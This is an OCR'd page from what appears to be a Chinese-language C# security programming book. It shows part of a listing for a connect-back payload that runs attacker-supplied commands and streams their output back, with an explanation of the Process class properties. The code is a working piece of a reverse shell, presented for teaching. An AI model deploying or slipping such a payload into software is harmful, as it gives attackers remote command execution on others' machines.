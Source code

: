 > try
> 
> {
> 
> Process prc = new ➊Process();
> 
> prc.➋StartInfo = new ProcessStartInfo();
> 
> prc.StartInfo.➌FileName = filename;
> 
> prc.StartInfo.➍Arguments = arg;
> 
> prc.StartInfo.➎UseShellExecute = false;
> 
> prc.StartInfo.➏RedirectStandardOutput = true;
> 
> prc.➐Start();
> 
> prc.StandardOutput.BaseStream.➑CopyTo(stream);
> 
> prc.WaitForExit();
> 
> }
> 
> catch
> 
> {
> 
> string error = "执行命令时出错 " + cmd + "\n";
> 
> byte[] errorBytes = ➒Encoding.ASCII.GetBytes(error);
> 
> stream.➓Write(errorBytes, 0, errorBytes.Length);
> 
> }
> 
> }
> 
> }
> 
> }
> 
> }
> 
> }

示例 4-4: 运行攻击者提供的命令并返回连接回负载的输出

在实例化一个新的 Process 类 ➊ 后，我们将一个新的 ProcessStartInfo 类分配给 Process 类的 StartInfo 属性 ➋，这使我们可以为命令定义某些选项，从而获取输出。在将 StartInfo 属性赋值为一个新的 ProcessStartInfo 类后，我们再为 StartInfo 属性中的各个属性赋值：FileName 属性 ➌，即我们要运行的命令，以及 Arguments 属性 ➍，它包含命令的任何参数。
